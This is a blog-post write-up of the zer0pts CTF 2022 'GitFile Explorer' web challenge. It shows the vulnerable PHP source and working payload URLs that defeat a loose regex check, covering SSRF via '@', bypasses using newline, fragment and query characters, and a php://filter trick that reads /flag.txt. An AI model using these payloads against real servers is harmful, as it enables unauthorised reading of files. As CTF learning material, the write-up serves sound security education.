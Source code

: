 ```yaml
---
layout: post
title: zer0pts CTF 2022 Writeup
published: true
categories: [Web]
excerpt: I debated doing a writeup for this since I only worked on the easiest web challenge with my team, but since this blog needed an update I am publishing it.
---
```


I debated doing a writeup for this since I only worked on the easiest web challenge with my team, but since this blog needed an update I am publishing it.

---

## Web

---

# GitFile Explorer

#### Category: Web | 77 points

<details>
  <summary>Challenge Description</summary>
  
  Read /flag.txt on the server.     
	http://gitfile.ctf.zer0pts.com:8001/
</details>

The source code was given for this challenge, so no guessing was required.

First, I tried to understand the application by clicking on the Download button on the Challenge URL, which returns the following URL: http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md


Looking at the source code, we see that the URL is generated as follows:

```php
$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
```


It is immediately obvious that the regex is very loose. Since the regex only checks for presence of `github` or `gitlab` or `bitbucket` in the URL, the full hostname is not actually needed and we just need to include it somewhere in our `service` parameter. 

An SSRF can be achieved by putting an `@` after the hostname to redirect to our chosen domain, such as http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=.&repo=.&branch=.&file=index.php would return the contents of `index.php` of the site.

From here I tried path traversal by replacing the `index.php` with `../../../flag.txt` only to be met with the following error:

```markdown
: file_get_contents(http://...@gitfile.ctf.zer0pts.com:8001/./././../../../flag.txt): Failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request in

**/var/www/html/index.php**

on line **30**
```

I got the same error when trying http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=..&repo=..&branch=..&file=flag.txt as well, which should have sent the same request given the code:

```php
$url = craft_url($service, $owner, $repo, $branch, $file);
```

It was here a few of us got stuck for a while, and we started looking for other bypasses.

The following regex bypasses are viable:
- using the newline character `%0A`: http://gitfile.ctf.zer0pts.com:8001/?service=http://gitfile.ctf.zer0pts.com:8001/%0Ahttp://github&owner=.&repo=.&branch=.&file=flag.txt
- using the URL-encoded fragment identifier `#`: http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost%23github&owner=.&repo=.&branch=.&file=index.php
- using the query paramter `?=`: http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost/flag.txt%3Fa%3Dgithub&owner=.&repo=.&branch=.&file=a

We also tried non-HTTP protocols such as:
- File selector `file://`: http://gitfile.ctf.zer0pts.com:8001/?service=file://flag.txt%0Ahttp://github&owner=.&repo=.&branch=.&file=index.php which returns `Remote host file access not supported`, meaning that the `file://` wouldn't work.
- PHP Filter `php://filter/convert.base64-encode/resource=`: `http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=flag.txt%0Ahttp://github&owner=..&repo=..&branch=..&file=.`, which returns `Read of 8192 bytes failed with errno=21 Is a directory in /var/www/html/index.php on line 30`, which meant that `resource` was somehow reading a directory instead of the file we specified...

And thus to no avail.

It was at this point Ocean came in with the brilliant idea of separating the base resource directory as a `/` and specifying the file in the param instead: http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=/%0ahttp://github&owner=..&repo=..&branch=..&file=flag.txt, which finally led us to the flag.

The content returned was in base64 due to our filter: `emVyMHB0c3tmb28vYmFyLy4uLy4uLy4uLy4uLy4uL2RpcmVjdG9yeS90cmF2ZXJzYWx9Cg==`

Which when decoded, it gives the flag!

<details>
  <summary>FLAG</summary>
  
   zer0pts{foo/bar/../../../../../directory/traversal}
</details>


